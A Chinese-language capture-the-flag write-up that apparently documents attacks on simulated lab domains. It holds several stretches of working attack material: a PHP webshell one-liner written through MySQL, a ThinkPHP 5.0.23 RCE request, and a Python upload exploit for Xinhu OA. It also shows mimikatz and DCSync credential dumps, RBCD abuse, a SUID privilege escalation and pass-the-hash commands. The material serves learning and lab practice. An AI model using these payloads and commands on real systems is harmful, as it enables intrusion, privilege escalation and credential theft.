start vulscan
[*] NetInfo:
 [*]172.22.13.28
[->]WIN-HAUWOLAO
 [->]172.22.13.28
 [*] NetInfo:
 [*]172.22.13.6
  [->]WIN-DC
  [->]172.22.13.6
  [*] WebTitle: http://172.22.13.14       code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
  [*] NetBios: 172.22.13.6     [+]DC XIAORANG\WIN-DC          
[*] WebTitle: http://172.22.13.28       code:200 len:2525   title:欢迎登录 OA 办公平台
[*] NetBios: 172.22.13.28    WIN-HAUWOLAO.xiaorang.lab           Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.13.57       code:200 len:4833   title:Welcome to CentOS
[*] WebTitle: http://172.22.13.28:8000  code:200 len:170    title:Nothing Here.
[+] ftp://172.22.13.14:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] WebTitle: http://172.22.13.14:8080  code:200 len:3655   title:公司发货单
[+] mysql:172.22.13.28:3306:root 123456
```

:::success  
172.22.13.14 `本机地址`  
172.22.13.57 `开放80,22,2049 NFS`  
172.22.13.28 8000,3306,80 WIN-HAUWOLAO，存在 mysql 弱口令  
172.22.13.6 `WIN-DC DC`  
:::

### 代理渗透 mysql

做一个`windows` sock5 代理，利用`navicat`链接上去后  
写`secure_file_priv`日志木马

```plain
show variables like "secure_file_priv";
show variables like "%general%"
## 写一个一句话木马
select "<?php eval($_POST[1]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

写木马后，链接地址`[http://172.22.13.28/1.php](http://172.22.13.28/1.php)`，成功获取`flag3`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205206-0347efcc-d56f-1.png)

这里可以创建一个用户连接`rdp`

```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

远程连接后，可以利用`BloodHound`搜集内网信息

```plain
proxychains bloodhound-python -u zhangwen -p 'QT62f3gBhK1' -d xiaorang.lab -c all -ns 172.22.13.6 --zip --dns-tcp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205212-06eaf520-d56f-1.png)

上传一个`mimikatz`进行提取账号密码信息

```plain
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > test.txt
```

```plain
Authentication Id : 0 ; 219475 (00000000:00035953)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2023/10/4 16:46:14
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
    ssp :   
    credman :
```

### 渗透 RBCD

我们需要去分析，发现用户`chenglei`属于`ACL Admin组`  
注：`ACL Admins 组`对 `WIN-DC`具有 `WriteDacl` 权限，那么可以直接写 `DCSync` / `RBCD` / `Shadow Credentials`  
`RBCD`流程如下

> proxychains addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'  
> proxychains rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'  
> proxychains getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6  
> export KRB5CCNAME=Administrator.ccache  
> 添加 host 地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205232-12a3e50c-d56f-1.png)

> 最终无密码连接  
> proxychains psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205237-15bd0d36-d56f-1.png)

### 渗透 NFS 服务 ftp 提权

学习一篇提权文章：[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12)  
这里我们来到第一个拿到`shell`的主机，通过`fscan`可知`172.22.13.57`是存在`NFS`服务提权漏洞的  
我们来到根目录，新建一个目录进行`挂载`

```plain
#渗透 NFS 服务
sudo sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
sudo apt-get update
apt-get install nfs-common -y

# 查看共享
showmount -e 172.22.13.57
cd /
mkdir test
mount -t nfs 172.22.13.57:/ ./test -o nolock

## 挂载后，证书服务生成，将公钥传给 joyce@172.22.13.57
ssh-keygen -t rsa -b 4096
cd /test/home/joyce/
mkdir .ssh
cat /root/.ssh/id_rsa.pub >> /test/home/joyce/.ssh/authorized_keys
python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
```

上传`bash.c`，进行编译。利用`ftp`存在 suid 权限成功提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205247-1b671ac4-d56f-1.png)

> 整理命令  
> 上传一个反弹 shell 的 c 文件`bash.c`

```plain
root@ubuntu:/temp/home/joyce# chmod -s bash.c
root@ubuntu:/temp/home/joyce# gcc bash.c -o exp
bash.c: In function ‘main’:
bash.c:6:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  system("bash");
      |  ^~~~~~
root@ubuntu:/temp/home/joyce# chmod +s exp
root@ubuntu:/temp/home/joyce# ls -al
total 52
drwx------ 3  996  994  4096 Feb 15 17:15 .
drwxr-xr-x 4 root root  4096 Aug 10  2022 ..
-rw-r--r-- 1 root root    76 Feb 15 17:15 bash.c
-rw------- 1  996  994   172 Feb 15 17:13 .bash_history
-rw-r--r-- 1  996  994    18 Nov 25  2021 .bash_logout
-rw-r--r-- 1  996  994   193 Nov 25  2021 .bash_profile
-rw-r--r-- 1  996  994   231 Nov 25  2021 .bashrc
-rwsr-sr-x 1 root root 16784 Feb 15 17:15 exp
drwxr-xr-x 2 root root  4096 Feb 15 17:08 .ssh
root@ubuntu:/temp/home/joyce# cd .ssh
root@ubuntu:/temp/home/joyce/.ssh# ls
authorized_keys
root@ubuntu:/temp/home/joyce/.ssh# ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
Last login: Thu Feb 15 17:09:05 2024 from 172.22.13.14

Welcome to Alibaba Cloud Elastic Compute Service !

[joyce@centos ~]$ 
[joyce@centos ~]$ ls
bash.c  exp
[joyce@centos ~]$ ls -al
total 52
drwx------  3 joyce joyce  4096 Feb 15 17:15 .
drwxr-xr-x. 4 root  root   4096 Aug 10  2022 ..
-rw-r--r--  1 root  root     76 Feb 15 17:15 bash.c
-rw-------  1 joyce joyce   172 Feb 15 17:13 .bash_history
-rw-r--r--  1 joyce joyce    18 Nov 25  2021 .bash_logout
-rw-r--r--  1 joyce joyce   193 Nov 25  2021 .bash_profile
-rw-r--r--  1 joyce joyce   231 Nov 25  2021 .bashrc
-rwsr-sr-x  1 root  root  16784 Feb 15 17:15 exp
drwxr-xr-x  2 root  root   4096 Feb 15 17:08 .ssh
[joyce@centos ~]$ ./exp
[root@centos ~]# ls
bash.c  exp
[root@centos ~]# id
uid=0(root) gid=0(root) groups=0(root),994(joyce)
[root@centos ~]# cat /flag
cat: /flag: No such file or directory
[root@centos ~]# cd /
[root@centos /]# ls
bin   etc         lib         media  pAss.txt  run   sys  var
boot  flag02.txt  lib64       mnt    proc      sbin  tmp
dev   home        lost+found  opt    root      srv   usr
[root@centos /]# cat f*
 SSS  h           d                CCC            d           t         l     
S     h           d               C               d           t  ii     l     
 SSS  hhh   aa  ddd ooo w   w     C    rrr eee  ddd eee nnn  ttt     aa l  ss 
    S h  h a a d  d o o w w w     C    r   e e d  d e e n  n  t  ii a a l  s  
SSSS  h  h aaa  ddd ooo  w w       CCC r   ee   ddd ee  n  n  tt ii aaa l ss  


flag02: flag{90553d7c-e30e-42d9-b873-5888975a7d29}

hint: relay race
[root@centos /]# Connection to 172.22.13.14 closed by remote host.
Connection to 172.22.13.14 closed.
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205300-237bb9d6-d56f-1.png)

成功获取所有 flag，完成靶标，涉及考点挺多的，总结学习一波。

## Initial 靶标

实战内网靶标最后一篇，进攻`Initial`,经过前面的知识铺垫直接拿下咯，比较常规的渗透环节。

​ 较为简单的一套靶机，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个 flag，各部分位于不同的机器上。  
**考点：1. tp5.0.23 漏洞 2.信呼 OA 漏洞 3.DCSync 打 MS17010**

开局给了一个 IP 地址，访问发现存在`thinkphp远程代码执行(5.0.23)`

### 外网 Thinkphp 渗透

初步信息收集，`zemap`扫一波

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205305-265d0164-d56f-1.png)

构造 exp 如下，直接弹 shell 即可

```plain
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.144.193
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
# 可更改为 bash 反弹 shell，记得 url 编码即可
```

### sudo mysql 提权

反弹 shell 后，需要进行提权操作，执行如下命令

```plain
sudo mysql -e '\! /bin/sh'
```

参考：[https://gtfobins.github.io/gtfobins/mysql/](https://gtfobins.github.io/gtfobins/mysql/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205317-2d377bfe-d56f-1.png)

成功读取到第一步 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205331-360361e4-d56f-1.png)

`fscan`扫描内网信息如下，`nps`隧道代出流量  
:::danger  
./fscan -h 172.22.1.0/24 -o res.txt

- - -

/ *\\ \_\_* | |**  
/ /\_\\/\_\_**/ **|/** | '**/ \_\` |/** | |/ /  
/ /*\\*\_\_**\_ *\\ (\_\_| | | (*| | (**| <  
\_\_**/ |***/\\***|*| \_\_,*|\_\_*|*|\_\\  
fscan version: 1.8.2  
start infoscan  
(icmp) Target 172.22.1.15 is alive  
(icmp) Target 172.22.1.2 is alive  
(icmp) Target 172.22.1.18 is alive  
(icmp) Target 172.22.1.21 is alive  
\[*\] Icmp alive hosts len is: 4  
172.22.1.18:80 open  
172.22.1.15:80 open  
172.22.1.15:22 open  
172.22.1.18:3306 open  
172.22.1.21:445 open  
172.22.1.18:445 open  
172.22.1.2:445 open  
172.22.1.21:139 open  
172.22.1.2:139 open  
172.22.1.18:139 open  
172.22.1.18:135 open  
172.22.1.2:135 open  
172.22.1.21:135 open  
172.22.1.2:88 open  
\[*\] alive ports len is: 14  
start vulscan  
\[*\] WebTitle: [http://172.22.1.15](http://172.22.1.15/) code:200 len:5578 title:Bootstrap Material Admin  
\[*\] NetInfo:  
\[*\]172.22.1.18  
\[->\]XIAORANG-OA01  
\[->\]172.22.1.18  
\[*\] NetInfo:  
\[*\]172.22.1.2  
\[->\]DC01  
\[->\]172.22.1.2  
\[*\] NetInfo:  
\[*\]172.22.1.21  
\[->\]XIAORANG-WIN7  
\[->\]172.22.1.21  
\[*\] NetBios: 172.22.1.18 XIAORANG-OA01.xiaorang.lab Windows Server 2012 R2 Datacenter 9600  
\[+\] 172.22.1.21 MS17-010 (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)  
\[*\] NetBios: 172.22.1.2 \[+\]DC DC01.xiaorang.lab Windows Server 2016 Datacenter 14393  
\[*\] 172.22.1.2 (Windows Server 2016 Datacenter 14393)  
\[*\] NetBios: 172.22.1.21 XIAORANG-WIN7.xiaorang.lab Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
\[*\] WebTitle: [http://172.22.1.18](http://172.22.1.18/) code:302 len:0 title:None 跳转 url: [http://172.22.1.18?m=login](http://172.22.1.18/?m=login)  
\[\*\] WebTitle: [http://172.22.1.18?m=login](http://172.22.1.18/?m=login) code:200 len:4012 title:信呼协同办公系统  
\[+\] [http://172.22.1.15](http://172.22.1.15/) poc-yaml-thinkphp5023-method-rce poc1  
2024/02/15 20:09:25.478 \[W\] \[client.go:213\] connect to 172.22.1.21:80 error dial tcp 172.22.1.21:80: connect:  
:::  
大致整理一下如下

```plain
172.22.1.18 XIAORANG-OA01
端口：135,80,3306,445,139

172.22.1.21 XIAORANG-WIN7
端口：445,135,139  
MS17-010 永恒之蓝漏洞

172.22.1.2 DC01 域控 Dsync 漏洞
端口：135,139,445,88
```

### 信乎 OA getshell

访问`[http://172.22.1.18/?m=login](http://172.22.1.18/?m=login)`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205339-3a9fabb8-d56f-1.png)

存在一枚`nday`，贴上脚本直接写入木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205344-3db78064-d56f-1.png)

如下

```plain
import requests

session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=::',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('whoami');")
print(url_pre + filepath + "?1=system('whoami');")
print(r.text)
```

蚁剑挂上`socks5`代理，成功读取第二部分 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205353-42d8a2b2-d56f-1.png)

### Dsync 攻击拿下域控

```plain
DCSync 攻击前提
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

•Administrators 组内的用户
•Domain Admins 组内的用户
•Enterprise Admins 组内的用户
•域控制器的计算机帐户

即：默认情况下域管理员组具有该权限。
机器拥有机器有 DCSync 的权限，
```

利用`proxychains` + `msfconsole`拿下永恒之蓝主机  
收集 Windows 的`凭据`

```plain
## 获取凭据
load kiwi
creds_all

# 令牌偷取
load incognito
list_tokens -u
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205401-47a9e594-d56f-1.png)

`DCSync`获取域控

```plain
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   edc506302bf9b040febfb84a1459c0e8        532480
1104    XIAORANG-OA01$  673ec2d0ad2f73341c4b3e1fc2fbade5        4096
1103    XIAORANG-WIN7$  507797b66f76b8b71d20555b0c59f86d        4096
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205407-4b19dcca-d56f-1.png)

最后`hash传递`获取域控

```plain
proxychains psexec.py -dc-ip 172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 XIAORANG.LAB/administrator@172.22.1.2
# 拓展 对 XIAORANG-WIN7$的凭证进行 dcsync
proxychains secretsdump.py XIAORANG-WIN7\$@172.22.1.2 -just-dc-user administrator -hashes :d4df8a3fa73a9fee14a62123784290c6
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227205411-4d95eb10-d56f-1.png)

最终拼接获取完整 flag，提交拿下靶标。

总：前前后后笔者也是陆续弄了几天，记录了模拟实战内网靶标的总结笔记，对内网知识有兴趣的伙伴可自行去复现一波。安全无止境，永远在路上。结，如若有误请联系笔者，大佬勿喷。
